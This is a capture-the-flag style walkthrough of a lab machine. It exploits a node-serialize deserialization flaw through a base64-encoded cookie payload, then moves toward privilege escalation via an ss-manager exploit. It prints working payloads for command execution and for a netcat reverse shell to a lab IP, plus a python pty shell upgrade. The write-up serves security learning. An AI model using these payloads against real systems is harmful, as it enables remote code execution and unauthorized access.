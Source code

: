 ![](https://d2mxuefqeaa7sj.cloudfront.net/s_D70A1EC97DF1A4BB47BF1E7B3EAFBEC86E52E2AD587D1A8BC3E10D54A7CA2C35_1552328352970_image.png)


My knowledge base of this application is limited… very limited so we ask the oracle aka google.

google: node-serialize vulnerabilities

found several explanations but a majority of it reminded me how much I don’t know. I eventually found this wordpress blog that explained things on a manner I was able to wrap my mind around.
Link: https://hd7exploit.wordpress.com/2017/05/29/exploiting-node-js-deserialization-bug-for-remote-code-execution-cve-2017-5941/

code example that causes a `ls -al`

    {"username":"_$$ND_FUNC$$_function(){return require('child_process').execSync('ls -l /',(e,out,err)=>{console.log(out);}); }()"}

encode with base64 and send as cookie.

result:

![](https://d2mxuefqeaa7sj.cloudfront.net/s_D70A1EC97DF1A4BB47BF1E7B3EAFBEC86E52E2AD587D1A8BC3E10D54A7CA2C35_1552329203351_image.png)



sending a reverse shell via `nc`

    {"username":"_$$ND_FUNC$$_function(){return require('child_process').execSync('nc 192.168.56.102 9000 -e /bin/sh',(e,out,err)=>{console.log(out);}); }()"}

encoded to base64 and sent as cookie.

we have a shell

![](https://d2mxuefqeaa7sj.cloudfront.net/s_D70A1EC97DF1A4BB47BF1E7B3EAFBEC86E52E2AD587D1A8BC3E10D54A7CA2C35_1552329826385_image.png)


upgrade shell

    python -c 'import pty; pty.spawn("/bin/bash")'
![](https://d2mxuefqeaa7sj.cloudfront.net/s_D70A1EC97DF1A4BB47BF1E7B3EAFBEC86E52E2AD587D1A8BC3E10D54A7CA2C35_1552329913395_image.png)


well after uploading the priv-esc scripts and found a few exploits but we don’t have `gcc` on the box to compile. Furthermore, I discovered after returning to the box several times a certain required process was not starting. Thus continuing the priv-esc to become impossible. After several restarts of the VM and much research on the matter I am able to see the processes used by user: fireman

viewing fireman processes

    ps aux | grep fireman

![](https://d2mxuefqeaa7sj.cloudfront.net/s_D70A1EC97DF1A4BB47BF1E7B3EAFBEC86E52E2AD587D1A8BC3E10D54A7CA2C35_1552672563826_image.png)


from this point we can see that fireman is calling a binary called `ss-manager`. From this point we can search for exploits pertaining to that binary.

`ss-manager` is vulnerable to “shadowsocks-libev 3.1.0 - Command Execution”
link: https://www.exploit-db.com/exploits/43006
